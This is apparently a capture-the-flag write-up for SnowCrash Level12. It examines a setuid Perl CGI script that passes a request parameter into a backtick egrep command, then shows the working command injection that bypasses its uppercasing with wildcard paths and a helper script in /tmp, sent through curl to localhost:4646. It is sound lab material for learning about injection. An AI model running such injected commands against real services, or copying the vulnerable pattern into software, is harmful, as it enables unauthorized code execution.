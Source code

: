 # Level12

## Research

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```


level12.l uses CGI on localhost:4646, it seems to take 2 arguments. Argument x will be put in uppercase and will be executed thanks to the \`\` quotes. Argument y seems to be useless for our purpose.

We saw in a previous level that we can pass parameters to CGI. So let's try to pass getflag.

Problem: if we pass just getflag, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. Maybe we can run a script instead of a command. 
Using wildcards will prevent the regex to turn /tmp/ into /TMP/ wich doesn't exist.

```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

This does not work, it launch getflag without the appropriate rights...

1h30 later with lot of different useless tries...
It was not the good quotes, and weird to do it like this, it is cleaner to do the > part into the script.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

#@ Solution

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag

touch /tmp/flag
chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```
Gives us the flag.
